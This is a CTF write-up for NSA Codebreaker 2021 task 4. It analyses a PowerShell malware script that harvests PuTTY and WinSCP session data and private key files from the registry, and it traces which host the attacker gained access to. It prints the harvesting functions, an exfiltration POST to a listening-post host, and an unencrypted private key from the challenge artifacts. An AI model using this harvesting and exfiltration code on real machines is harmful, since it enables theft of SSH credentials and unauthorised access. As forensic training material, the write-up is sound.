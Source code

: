 ```yaml
---
layout: page
title: About
permalink: /NSA-Codebreaker-2021/task4.md
---
```

.This is a write by a partner I had for this CTF: @seththegardner on github
### First Insights

At this point in the investigation we now know that we had a malicious script execute on an employee's machine. Now that we have discovered the script, we need to examine the code being executed to determine what data the malware stole from the machine and sent to the LP. This will require a full breakdown of the malware and examination of files that the script accessed. This task attached an artifacts.zip, which contained multiple PuTTY and WinSCP keys and the employee's NTUSER.dat file. With these given files, along with the malware script, we have a good route to determine the extent of the breach.

### Malware Examination

Our first step to find the comprimised OOPS account is to examine the malware. The entire script is included in this task's directory, but we will be using snippits of it.
After the inital function declarations, we see that there is a global log that is being sent back to the listning post and the Invoke-SessionGopher function is called. It is also the only function really called from the main line so we will start there.

```powershell
function Invoke-SessionGopher {
  # Value for HKEY_USERS hive
  $HKU = 2147483651
  # Value for HKEY_LOCAL_MACHINE hive
  $HKLM = 2147483650

  $PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
  $WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"


  Write-Log "Digging on $(Hostname)..."

  # Aggregate all user hives in HKEY_USERS into a variable
  $UserHives = Get-ChildItem Registry::HKEY_USERS\ -ErrorAction SilentlyContinue | Where-Object {$_.Name -match '^HKEY_USERS\\S-1-5-21-[\d\-]+$'}

  # For each SID beginning in S-15-21-. Loops through each user hive in HKEY_USERS.
  foreach($Hive in $UserHives) {

    # Created for each user found. Contains all PuTTY, WinSCP, FileZilla, RDP information.
    $UserObject = New-Object PSObject

    $ArrayOfWinSCPSessions = New-Object System.Collections.ArrayList
    $ArrayOfPuTTYSessions = New-Object System.Collections.ArrayList
    $ArrayOfPPKFiles = New-Object System.Collections.ArrayList

    $objUser = (GetMappedSID)
    $Source = (Hostname) + "\" + (Split-Path $objUser.Value -Leaf)

    $UserObject | Add-Member -MemberType NoteProperty -Name "Source" -Value $objUser.Value

    # Construct PuTTY, WinSCP, RDP, FileZilla session paths from base key
    $PuTTYPath = Join-Path $Hive.PSPath "\$PuTTYPathEnding"
    $WinSCPPath = Join-Path $Hive.PSPath "\$WinSCPPathEnding"

    if (Test-Path $WinSCPPath) {

      # Aggregates all saved sessions from that user's WinSCP client
      $AllWinSCPSessions = Get-ChildItem $WinSCPPath

      (ProcessWinSCPLocal $AllWinSCPSessions)

    } # If (Test-Path WinSCPPath)

    if (Test-Path $PuTTYPath) {

      # Store .ppk files
      $PPKExtensionFilesINodes = New-Object System.Collections.ArrayList

      # Aggregates all saved sessions from that user's PuTTY client
      $AllPuTTYSessions = Get-ChildItem $PuTTYPath

      (ProcessPuTTYLocal $AllPuTTYSessions)

      (ProcessPPKFile $PPKExtensionFilesINodes)

    } # If (Test-Path PuTTYPath)

  } # For each Hive in UserHives

  Write-Host "Final log:"
  $global:log
```
This function acts as the "main" of the script. It gives away what data the malware is attempting to dig in the declarations of *$PuTTYPathEnding* and *$WinSCPPathEnding*. These tell us that the malware is attempting to look for stored data about the machine's PuTTY and WinSCP sessions. The malware then looks in the Windows User Registry for all past and current users on the machine. After collecting all of the users, the script calls two methods, *ProcessWinSCPLocal* and *ProcessPuTTYLocal*. This confirms that the malware is digging for ssh credentials. We will now look at the *ProcessPuTTYLocal* method.

``` powershell
function ProcessPuTTYLocal($AllPuTTYSessions) {

  # For each PuTTY saved session, extract the information we want
  foreach($Session in $AllPuTTYSessions) {

    $PuTTYSessionObject = "" | Select-Object -Property Source,Session,Hostname,Keyfile

    $PuTTYSessionObject.Source = $Source
    $PuTTYSessionObject.Session = (Split-Path $Session -Leaf)
    $PuTTYSessionObject.Hostname = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "Hostname" -ErrorAction SilentlyContinue).Hostname)
    $PuTTYSessionObject.Keyfile = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "PublicKeyFile" -ErrorAction SilentlyContinue).PublicKeyFile)

    # ArrayList.Add() by default prints the index to which it adds the element. Casting to [void] silences this.
    [void]$ArrayOfPuTTYSessions.Add($PuTTYSessionObject)

    # Grab keyfile inode and add it to the array if it's a ppk
    $Dirs = Get-ChildItem $PuTTYSessionObject.Keyfile -Recurse -ErrorAction SilentlyContinue
      foreach ($Dir in $Dirs) {
        Switch ($Dir.Extension) {
          ".ppk" {[void]$PPKExtensionFilesINodes.Add($Dir)}
        }
      }
  }

  if ($o) {
    $ArrayOfPuTTYSessions | Export-CSV -Append -Path ($OutputDirectory + "\PuTTY.csv") -NoTypeInformation
  } else {
    Write-Log "PuTTY Sessions"
    Write-Log ($ArrayOfPuTTYSessions | Format-List | Out-String)
  }

  # Add the array of PuTTY session objects to UserObject
  $UserObject | Add-Member -MemberType NoteProperty -Name "PuTTY Sessions" -Value $ArrayOfPuTTYSessions

} # ProcessPuTTYLocal
```
This is the one of the bulk digging functions of the malware. This method looks at each PuTTY session store in the Registry and extracts two values, *HostName* and *PublicKeyFile*. These two values are exactly what the malware needs to be able to get into a machine, as long as the Public Key file is non-encrypted. From all of the parsed keyfiles in the registry the malware then searches the machine for the matching key files and saves them to the global log as a .csv. The other digging method looks for WinSCP sessions and does the same thing. After the registry and key files are parsed, the malware then makes it POST request to the LP.

```
Invoke-WebRequest -uri http://rlwmw.invalid:8080 -Method Post -Body $global:log
```
Now knowing that the malware is searching for unsecure keys stored on the machine, we must look at the included NTUSER registry file to see if any keys are not encrypted.

### Understand Windows Registry

The first step to examine the Registry is to know how to open the file. After research, I was able to load the hive onto my windows machine and was ready to see what the malware touched. (Note: regexsh also works for linux machines to examine the file from the command line.) Following the path in the malware, I was albe to see that there was a decent amount of files that the malware examined. 

```powershell
$PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
$WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"
```

![image](https://user-images.githubusercontent.com/94944325/145702185-36260c1c-2458-4dc1-99ce-eb84cb5d11fb.png)

Looking into the registry, we were able to narrow down the list of keys we needed to find that could be unencrypted. We can see that there are 5 PuTTY keys that we need to verifyied.


### Determine Comprimise

After knowing which PuTTY Sessions were stored in the employee's registy, we now need to look at the session keys to make sure they are encrypted. After searching through the 5 keys present, we found that the key for dkr_prd72 was not encrypted, meaning the LP now how the credentials to ssh into the machine.

```
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: __COMP4__
Public-Lines: 6
AAAAB3NzaC1yc2EAAAABJQAAAQEAi2xdUFsRQhaU92qNU6U+pbUbHT+8me2TiY+v
8Nc3VHBuQRQ1p4OjJuhryN0dTv18uaW1lc1uFBHWExpPYaBAP3O7HzTfRD/o5xYH
L2+NMELqIeMkHMa/5BDzOB+sTObQdLJ5ZlAlczBdDsKI7hQwp9w6VherXzadGx2N
rD/uME4ETJZj/a3WqdmYU5JinX58DwM8zqALh3CMZP0ZE7tPiW5vyEo6TDYX9o02
l2V5+Cah8zpyXSiIYEe3WKqp2Ohl83J2E/FuWse3kGiSdBVk3JMtmsZkzmL25wh9
K3LjdS3hzmi6z7IT1rmU+5yOR+Km9dTCvqY27AU0fouGNlDi8w==
Private-Lines: 14
AAABAHELwUgSfLIgJcGwVunf7ZsdOJRBhCnHjGGyxgGL56w/e/1qVQRc5SZ3QqLc
y6fUcvdjw6nk1csVYXdFw9Kdm+BrrHoq3opdVQ5k4zs32kLOeKXaw1WaOrjrJhHU
fd184F6ei/IXeE+O/1gTWkR/ErGdzm9RdjGGOjGpQm/8e+/PWYizwcOTJfCXuFKF
qaOJbCovinuFic+376Rhgo5Vo0sqqjlkRC8EPrewBbjc157Y2okKVmoc2H75XV1/
uBZ3o6oS8KknQAwYSdQZmdLnx2Uqft8j5MvdjsA+JHRmIjPWa2/UjOaPjPi4U6OH
uC1tK+xUF7Du0OAHIErSQYTeDv0AAACBANOT1+3kz7BzkptUoYJL6Y34S7NMemYu
IzcgWP+4fH4MS9G6yd2B+vUff/yo3uWddF/o8A0TLyjHTY01EVIN+qafgcqPD4aA
GjQonifN0KJnsa8XqADuW4qZl7vB8ZNOA8SYHtpzgVbYsnABus8LV5g3AqAFI7UF
DEMEJ6ZQ3P8HAAAAgQCoskcpQUJEODaImSnkbklPFeNNpYl7YaY2PivWNDuZKPaH
18j3oU+AJ7QhzsuKbB5FlHlhHG9lpwrhp8AW4mtCRnLpGqj2urGw4jNgIibmIsau
1k/85JhNT0Y/HjaMXrK61wf/YfcoujTf9HYX0VE2cK6wLBezfVaN6ukXn3MVtQAA
AIB2+HEmxXUIAqNj7Us3KjvUXVEzzYfT+J+MqkC22GJbKsUWGb+0EWTSLgTQtI83
WxEFBGJ1fo5pQ0KHDEdry9+s91yrHlMnfQBl33R8eKZKdknvh53C0ney+4C21Fc+
u++6hO4qP3foJEIJ4t7wPTtMOVNHRkfFLnGPSFy7jwjWMA==
Private-MAC: 69516e4c3f42737590234ba010954761879abd61
```

In order to get the flags of the user and machine, we simply need to navigate to the this keys location in the registry file and extract the value of the key.

![image](https://user-images.githubusercontent.com/94944325/145702220-e11866e9-264f-4a22-8ace-248b463eba21.png)

![image](https://user-images.githubusercontent.com/94944325/145702234-fc112f06-a083-4d61-a894-afe4fc4ad68d.png)

To complete this task, we were looking for the Hostname and Machine that the attacker now has access to, this can be seen in the snippits of the registry variables above. Since the PuTTY key is not encrypted, the LP can now ssh into the machine freely using builder07@drk_prd72.

Author: 

@seththegardner

Editor:

Hourglass aka Me

